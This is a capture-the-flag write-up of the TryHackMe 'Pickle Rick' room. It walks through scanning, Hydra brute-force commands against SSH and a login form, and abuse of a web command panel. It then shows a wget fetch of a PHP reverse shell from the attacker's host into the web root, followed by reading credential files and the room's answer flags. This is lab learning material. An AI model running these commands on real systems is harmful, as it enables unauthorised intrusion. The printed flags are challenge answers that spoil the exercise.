








# THM - Pickle Rick


---
## IP Address

### First Attempt

export IP=10.10.10.48

### Second Attempt

export IP=10.10.56.251


---
## Rustscan results

Ports Open

	22
	80


---
## Nmap Results
```
*nmap -sC -sV -A 10.10.10.48 -p 22,80 | tee Results.txt* 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-12 10:08 EST
Nmap scan report for 10.10.10.48
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 70:62:df:e9:64:01:7d:17:44:fa:59:8c:53:42:ab:38 (RSA)
|   256 a1:78:4e:ac:e3:b0:14:d6:9f:0d:98:5e:c4:0a:45:1f (ECDSA)
|_  256 42:2e:6a:1a:84:34:7f:3e:c9:d1:cb:31:a9:8a:be:9b (ED25519)
**80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))**
|_**http-title: Rick is sup4r cool**
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.40 seconds
```


---
## Web Page
Port 80 is open and **nmap** show it to be an **Apache 2.4.18** webserver




---
## Web Page Source Code
Reveals a user name: R1ckRul3s
```
R1ckRul3s
```


---
## Hydra attempt 1
Try **Hydra** on the **SSH** port
```
┌──(kali㉿kali)-[~/THM/PickleRick]
└─$ *hydra 10.10.10.48 -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt ssh* 
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-12 10:14:05
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.10.48:22/
[ERROR] target ssh://10.10.10.48:22/ does not support password authentication (method reply 4).
```


---
## SSH Attempt 1

```
┌──(kali㉿kali)-[~/THM/PickleRick]
└─$ *ssh R1ckRul3s@10.10.10.48*
The authenticity of host '10.10.10.48 (10.10.10.48)' can't be established.
ED25519 key fingerprint is SHA256:QomrXg37wA8GsJtj3leMIcBITzgMbb2y5EifvLBqD1Y.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.48' (ED25519) to the list of known hosts.
R1ckRul3s@10.10.10.48: Permission denied (publickey).
```


---
## Gobuster
What does Gobuster show us?
```
/assets               (Status: 301)
/server-status        (Status: 403)
```

What is hosted at assets?




---
## Misc Attempts at hacks
Searchsploited some stuff that didnt work. SSH enumeration (I already have a username)


---
## NMAP Again
Another **nmap** scan for vulns revealed **login.php**:
```
┌──(kali㉿kali)-[~/THM/PickleRick]
└─$ *sudo nmap 10.10.10.48 -p 22,80 --script vuln* 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-12 10:22 EST

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-cookie-flags: 
|   /login.php: 
|     PHPSESSID: 
|_      httponly flag not set
| http-enum: 
|   **/login.php: Possible admin folder**
|_  **/robots.txt: Robots file**
| http-fileupload-exploiter: 
|   
|     Couldn't find a file-type field.
|   
|_    Couldn't find a file-type field.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-sql-injection: 
|   Possible sqli for queries:
|     http://10.10.10.48:80/assets/?C=N%3BO%3DD%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=M%3BO%3DD%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=S%3BO%3DD%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=D%3BO%3DD%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=N%3BO%3DD%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://10.10.10.48:80/assets/?C=N%3BO%3DA%27%20OR%20sqlspider
|_    http://10.10.10.48:80/assets/?C=D%3BO%3DA%27%20OR%20sqlspider

Nmap done: 1 IP address (1 host up) scanned in 323.11 seconds
```




---
## BurpSuite and Hydra again
Used Burpsuite to try and craft a **hydra** command to brute force the password into **login.php**:
```
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt 10.10.10.48 http-post-form "/login.php/:user=^USER^&pass=^PASS^:Invalid username or password:H=Cookie: security=low; PHPSESSID=fudbk98c25mnpjj369s5elo522"
```

But gave 16 possible passwords and non worked
```
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-12 10:47:11
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.10.48:80/login.php/:user=^USER^&pass=^PASS^:Invalid username or password:H=Cookie: security=low; PHPSESSID=fudbk98c25mnpjj369s5elo522
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: 123456
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: 123456789
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: 12345
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: password
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: iloveyou
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: 1234567
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: rockyou
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: 12345678
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: princess
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: abc123
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: nicole
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: daniel
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: babygirl
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: monkey
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: lovely
[80][http-post-form] host: 10.10.10.48   login: R1ckRul3s   password: jessica
1 of 1 target successfully completed, 16 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-03-12 10:47:13
```

---
## Robots.txt
Found a weird text message in **Robots.txt** and used as the password on **login.php**:
```
UN: R1ckRul3s
PW: Wubbalubbadubdub 
```




---
## Commands

When logged in to login.php, there is a text box that allows linux commands to be run on the serever



Can run **ls** command (but not **cat**) to view the contents and then view that file by entering it into the web address eg:
```
http://10.10.10.48/Sup3rS3cretPickl3Ingred.txt
```



Doing the same for clue.txt, it says to look around the file system for the other ingredients
```
Look around the file system for the other ingredient.
```



Performed a **find** command on the search string *ing* and found there is a file located here:
```
/home/rick/second ingredients
```

Ran **sudo -l** command to find *www-data* user can run all with no password:
```
Matching Defaults entries for www-data on ip-10-10-56-251.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-56-251.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Still cannot run cat though.




---
## Need a new plan
So, my plan was to upload a **php-reverse-shell.php** from *PenTestMonkey* but had to in a roundabout way. 

Finally was able to change permissions on the ./assets directory
```
sudo chmod 777 ./assets
```

Then upload the **shell.php** file from a python simple server:
```
wget http://10.9.1.154:8080/shell.php -O ./assets/shell.php
```

Yay! It worked: reverse shell as user **www-data**


---
# Linux Enum

Ok... so it was just some poking around. was doing normal enum (/etc/passwd and /etc/shadow) no hashes, but noticed another user **ubuntu**.
Moved into the **ubuntu** users home directory and used **cat** to read their bash history:
```
www-data@ip-10-10-56-251:/home/ubuntu$ *sudo cat .bash_history* 
ll
sudo apt-get install apache2
ls
ls -la
exit
3rd ingredients: fleeb juice
find / -name php.ini
sudo find / -name php.ini
sudo rm -rf /var/lib/php/session/* 
cat /etc/php/7.0/fpm/php.ini
cat /etc/php/7.0/fpm/php.ini | grep session
cd /var/lib/php/sessions
ls
sudo ls
sudo rm -rf sess_n16aanckg2ifmk12io64o1kfa2
sudo ls
```

Gives us the third ingredient **fleeb juice**

However, I know where the second ingredient is stored, but haven't accessed it yet. Perform a find command to locate and then read.
```
lww-data@ip-10-10-56-251:/home/ubuntu$ *find / -type f -iname second* 2> /dev/null* 
/home/rick/second ingredients
/usr/share/doc/apache2/examples/secondary-init-script
/usr/lib/x86_64-linux-gnu/perl/5.22.1/Time/Seconds.pm
www-data@ip-10-10-56-251:/home/ubuntu$ *cat /home/rick/second\ ingredients 
1 jerry tea
```

So, no real Privesc required.
